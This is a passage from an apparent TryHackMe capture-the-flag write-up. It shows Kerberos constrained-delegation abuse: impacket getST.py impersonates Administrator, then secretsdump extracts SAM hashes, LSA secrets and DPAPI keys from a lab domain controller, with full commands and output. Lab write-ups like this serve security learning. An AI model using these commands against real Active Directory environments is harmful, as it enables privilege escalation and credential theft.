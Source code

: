 
![Image](Pasted%20image%2020240404143758.png)
_Bloodhound Data Analysis_

For <mark style="background: #ADCCFFA6;">AllowedToDelegate</mark> Privileges to Abuse ,which means that I means user <span style="color:#fd77f8">password-reset</span> can impersonate to another user like this ⏬

![Image](Pasted%20image%2020240404143926.png)
_AllowedToDelegate privileges_

```bash
┌──(kali㉿kali)-[~/Downloads/Tryhackme/crocc_crew]
└─$ python3 /opt/Tools/impacket/examples/getST.py -spn 'oakley/DC' -dc-ip 10.10.180.93 -impersonate 'Administrator' 'cooctus.corp/password-reset:<PASSWORD'
Impacket v0.11.0 - Copyright 2023 Fortra

[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating Administrator
[*] Requesting S4U2self
[*] Requesting S4U2Proxy
[*] Saving ticket in Administrator@oakley_DC@COOCTUS.CORP.ccache
```
{: .nolineno}
{: .nolineno}

Now I got the impersonation ticket for administrator , lets export it to its kerbrose variable <span style="color:#f04276">KRB5CCNAME</span> .

```bash
┌──(kali㉿kali)-[~/Downloads/Tryhackme/crocc_crew]
└─$ export KRB5CCNAME=Administrator@oakley_DC@COOCTUS.CORP.ccache 
```
{: .nolineno}
{: .nolineno}

Now it is exported lets extract the secrets through <mark style="background: #FF5582A6;">secretsdump</mark> Tool from impacket like this ⏬

```bash
┌──(kali㉿kali)-[~/Downloads/Tryhackme/crocc_crew]
└─$ impacket-secretsdump -no-pass -k dc             
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Service RemoteRegistry is in stopped state
[*] Starting service RemoteRegistry
[*] Target system bootKey: 0xe748a0def7614d3306bd536cdc51bebe
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:7dfa0531d73101ca080........1c7:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae..........0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[-] SAM hashes extraction for user WDAGUtilityAccount failed. The account doesnt have hash information.
[*] Dumping cached domain logon information (domain/username:hash)
[*] Dumping LSA Secrets
[*] $MACHINE.ACC 
COOCTUS\DC$:plain_password_hex:ba0fdf2439a8aa435e22682ae391f03d7029b22371649eb26fa4134fdec948dba579a319ce114da1126d88c141339b6312b8027f4bc4a5f57a71d36ba61d7aa4bc31fd6c6948aa5fc287c7aba63383e8201c9799ecb1df3022be30ea334d8de4f7b1dda251bde864388cb502ab4b0fda4273431a437efd1a341ff21a174ba141f82c55b3a7a85d9f556931902b5664f10af29bef75806276eec4bb6be28a16ca095e300f25816d09aaf10c2fbec79ebe1cf5917bf79e059c87185d8a340e84b2f8819918f5a09bd030da3a4f26c91d66d1363ecf98ac5a1d537751b130f758c0565e9e53a1af803........2c7320
COOCTUS\DC$:aad3b435b51404eeaad3b435b51404ee:fa8e768b7015f2511be........062787:::
[*] DPAPI_SYSTEM 
dpapi_machinekey:0xdadf91990ade51602422e8283bad7a4771ca859b
dpapi_userkey:0x95ca7d2a7ae7ce38f20f1b11c22a05e5e23b321b
```